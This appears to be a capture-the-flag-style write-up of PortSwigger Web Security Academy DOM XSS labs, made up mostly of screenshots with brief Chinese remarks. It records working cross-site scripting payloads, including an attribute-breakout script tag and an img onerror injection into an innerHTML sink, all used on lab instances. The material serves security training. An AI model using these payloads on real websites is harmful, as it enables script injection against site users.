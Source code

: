 ![image](https://hackmd.io/_uploads/SktwuhmYp.png)

### Solution
#### chw
![image](https://hackmd.io/_uploads/B10AY2XKa.png)
#### /?search=<script>alert(1)</script>
![image](https://hackmd.io/_uploads/S15xqhmtT.png)
> 失敗

![image](https://hackmd.io/_uploads/BkWmcnXtT.png)
> search字串被放進img src
### Solved
#### /?search=%27">%27<script>alert(1)</script>
閉合img src
![image](https://hackmd.io/_uploads/HyPIs2Xta.png)
![image](https://hackmd.io/_uploads/Hk_wjh7Ya.png)

![image](https://hackmd.io/_uploads/Bkbuo3mYT.png)

## Lab: DOM XSS in innerHTML sink using source location.search
![image](https://hackmd.io/_uploads/Sk4423QKa.png)
https://0af7007703ac9b3780819ea1008f0019.web-security-academy.net/
![image](https://hackmd.io/_uploads/S1oBnhQFa.png)

### Solution
#### Element
![image](https://hackmd.io/_uploads/B16v4TQta.png)
#### <img src=1 onerror=alert(1)>
![image](https://hackmd.io/_uploads/r1sqNpQYa.png)

![image](https://hackmd.io/_uploads/H1PsVpQtp.png)
### Solved
![image](https://hackmd.io/_uploads/ryw3EpQF6.png)
![image](https://hackmd.io/_uploads/B16pN67Yp.png)

## Lab: DOM XSS in jQuery anchor href attribute sink using location.search source
![image](https://hackmd.io/_uploads/BJY1HamFa.png)
https://0a09002b03b608f18056e953009f00a2.web-security-academy.net/
![image](https://hackmd.io/_uploads/ryZZrpQK6.png)
